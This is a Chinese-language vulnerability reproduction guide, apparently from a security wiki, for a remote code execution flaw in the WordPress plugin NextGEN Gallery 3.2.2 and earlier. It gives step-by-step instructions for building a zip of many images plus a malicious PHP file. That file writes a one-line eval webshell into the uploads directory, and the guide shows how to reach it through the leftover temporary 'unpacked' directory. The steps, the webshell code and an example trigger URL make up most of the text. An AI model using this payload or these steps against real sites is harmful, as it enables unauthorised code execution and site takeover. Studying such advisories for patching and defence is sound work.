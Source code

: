 WordPress Plugin - NextGEN Gallery \<= 3.2.2 RCE
================================================

一、漏洞简介
------------

WordPress插件NextGEN Gallery \<=
3.2.2版本将上传的zip压缩包解压到/wp-content/uploads目录下的临时目录，该临时目录具有显著特点：以unpacked开头。

当zip压缩文件包含大量图片时将导致处理进程崩溃，而临时目录没有删除。如果在zip压缩包中放置一个php文件，那么该php文件会被解压到临时目录造成RCE漏洞。

官方在2019年6月4日发布了3.2.4版本修复了漏洞。

二、漏洞影响
------------

三、复现过程
------------

### 第1步：制作Zip压缩包

我制作了一个包含800张图片和1个恶意php文件（abc233.php）的zip压缩包，图片都是几KB的小图片，恶意php文件的功能是往上级目录写入webshell，abc233.php文件内容如下：

    <?php
        file_put_contents('../webshell666.php', '<?php @eval($_REQUEST["cmdx"]);?>');
    ?>

### 第2步：上传zip压缩包

点击"Add Gallery / Images"然后上传zip压缩包。

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId26.png)

### 第3步：查看临时目录

点击"import folder"，再点击"uploads"即可看到解压的临时目录。

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId28.png)

### 第4步：生成webshell

访问临时目录下的abc233.php文件即可在/wp-content/uploads目录下生成webshell。

    http://0-sec.org/wp-content/uploads/unpacked-phpA0CB.tmp/abc233.php

![](/Users/aresx/Documents/VulWiki/.resource/WordPressPlugin-NextGENGallery<=3.2.2RCE/media/rId30.png)

image

